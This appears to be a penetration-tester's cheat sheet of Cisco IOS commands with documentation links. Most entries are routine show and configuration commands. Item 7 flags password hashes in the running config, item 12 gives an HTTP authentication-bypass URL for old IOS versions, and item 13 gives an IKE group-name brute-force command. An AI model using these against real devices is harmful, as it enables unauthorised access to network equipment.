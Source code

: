 ### 1. show mode of as500
```
show system mode
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/server_nw_virtual/2-5_release/command_reference/show.html#wp1128243
__________
### 2. add vlan to your interface
```
interface GigabitEthernet7; switchport trunk allowed vlan add 2
```
**- cisco,networking**
#### References:

http://www.cisco.com/c/en/us/td/docs/switches/datacenter/nexus5000/sw/configuration/guide/cli/CLIConfigurationGuide/AccessTrunk.html
__________
### 3. raise privs cisco
```
enable
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/ios/12_2/configfun/command/reference/ffun_r/frf001.html
__________
### 4. start configuration
```
conf t
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/ios/12_2/configfun/command/reference/ffun_r/frf001.html
__________
### 5. show sessions
```
show session
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/ios/12_2/configfun/command/reference/ffun_r/frf001.html
__________
### 6. show version
```
show version
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/ios/12_2/configfun/command/reference/ffun_r/frf001.html
__________
### 7. show the config which is running in flash, looking for password 7 and the like
```
show running-config
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/ios/12_2/configfun/command/reference/ffun_r/frf001.html
__________
### 8. show the config which runs on start up
```
show startup-config
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/ios/12_2/configfun/command/reference/ffun_r/frf001.html
__________
### 9. show interface information : add breif for less
```
show ip interface
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/ios/12_2/configfun/command/reference/ffun_r/frf001.html
__________
### 10. show the routes of the switch
```
show ip route
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/ios/12_2/configfun/command/reference/ffun_r/frf001.html
__________
### 11. show the ACL for the switch
```
show access-lists
```
**- cisco**
#### References:

http://www.cisco.com/c/en/us/td/docs/ios/12_2/configfun/command/reference/ffun_r/frf001.html
__________
### 12. Bypass auth on ios 11.2-12.2
```
http://[ip]/level/56/exec/show/config
```
**- cisco,interesting,web application,remote command shell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 13. Try to brute the remote group name : cisco
```
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
```
**- cisco,scanning,brute**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
https://github.com/SpiderLabs/ikeforce
https://www.trustwave.com/Resources/SpiderLabs-Blog/Cracking-IKE-Mission-Improbable-(Part-1)/
__________
